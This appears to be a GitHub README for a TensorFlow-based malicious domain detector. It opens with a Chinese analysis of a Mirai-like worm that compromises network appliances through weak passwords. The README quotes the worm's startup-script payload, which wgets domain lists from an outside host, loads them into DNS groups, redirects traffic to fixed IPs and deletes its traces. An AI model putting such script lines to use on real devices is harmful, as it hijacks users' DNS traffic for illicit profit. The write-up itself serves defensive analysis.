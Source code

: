 # domain_malicious_detection
Malicious domain name detection based on tensorflow

# 路由器蠕虫触发的网络安全人工智能实战
在2017年10月11日捕获并处置针对有线电视机顶盒的蠕虫之后，我们再次捕获到针对高端通信设备的攻击蠕虫，被攻击设备通常具有用户行为管控能力（例如：NGFW、UTM、行为管理、QoS类设备）。该蠕虫采用类似Mirai的攻击手法，利用弱口令爆破进入网络设备，在设备启动脚本嵌入非法指令，下载域名资源并装载进设备进行重定向，非法牟利。典型的嵌入攻击代码如下，为避免滥用，我们对部分关键命令做了屏蔽处理。
```
#! /bin/sh
config dns rmvgrp 16
config dns rmvgrp 17
config dns rmvgrp 18
config dns rmvgrp 19
config dns addgrp 17 webwwurl
//下载并装载涉黄域名
wget http://yuanlinhome.com/kefu.txt
cp kefu.txt /kefu1.txt
wget dns loadfile 17 /kefu1.txt
rm -rf kefu.txt
rm -rf /kefu1.txt
config dns addgrp 18 webwurl
//下载并装载涉赌域名
wget http://yuanlinhome.com/bc.txt
cp bc.txt /bc1.txt
config dns loadfile 18 /bc1.txt
rm -rf bc.txt
rm -rf /bc1.txt
//重定向域名非法牟利
config dns addrule id=864 inip=any dns=18 outip=any action=reply actarg=101.102.225.211
config dns addrule id=964 inip=any dns=17 outip=any action=reply actarg=101.102.225.209
```
追踪其恶意资源网站，发现是注册解析在DNSPod，并启用了CDN服务，实际牟利的网址则位于境外。
<p align="center"><img width="40%" src="dns.png" /></p>